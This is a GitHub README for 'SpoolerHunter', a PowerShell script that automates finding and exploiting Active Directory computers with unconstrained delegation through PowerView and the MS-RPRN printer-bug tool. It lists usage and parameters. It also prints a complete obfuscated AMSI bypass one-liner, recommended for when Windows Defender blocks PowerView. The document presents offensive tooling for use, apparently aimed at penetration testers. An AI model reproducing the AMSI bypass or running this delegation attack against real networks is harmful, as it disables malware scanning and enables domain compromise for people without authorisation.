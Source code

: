 # SpoolerHunter
<h3>Description:</h3>
SpoolerHunter is a PowerShell script designed to automate the detection and exploitation of unconstrained delegation computers in a domain environment. The script utilizes the PowerView module to identify vulnerable machines and exploits them using the MS-RPRN.exe tool. It provides options to specify a target machine for the scan and enable verbose output for detailed information during execution.
<h3>Usage:</h3>
<div style="background-color: #f5f5f5; /* Light gray background */
            border: 1px solid #ccc; /* Gray border */
            border-radius: 5px; /* Rounded corners */
            padding: 10px; /* Padding around the content */
            margin-bottom: 20px; /* Margin at the bottom */
            color:red;
            font-family: Arial, sans-serif; /* Font family */
            font-size: 14px; /* Font size */
            line-height: 1.5; /* Line height */
            overflow-x: auto; /* Enable horizontal scrolling if needed */">
    <pre><code>.\SpoolerHunter.ps1 [-TargetMachine [String]] [-Verbose] [-h]</code></pre>
</div>
<h3>Parameters:</h3><br/>
<ul>
	<li>
		<b>-TargetMachine [String]</b>: Specifies the machine which is allowed to delegate. If not provided, the script scans for unconstrained delegation computers in the domain.		
	</li>
	<li>
		<b>-Verbose</b>: Enables verbose output, displaying detailed information about the scan and exploitation process.
	</li>
	<li>
		<b>-h</b>: Displays the help message, providing information about the script's usage, parameters, and examples.
	</li>
</ul>
<h3>Note:</h3>
<p>use the following AMSI bypass if PowerView is getting blocked by windows defender.</p>
<pre><code>S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )</code></pre>
<h3>Resources:</h3>
<ul>
	<li><a href="https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1"><b>PowerView</b></a></li>
	<li><a href="https://github.com/leechristensen/SpoolSample"><b>MS-RPRN</b></a></li>
</ul>
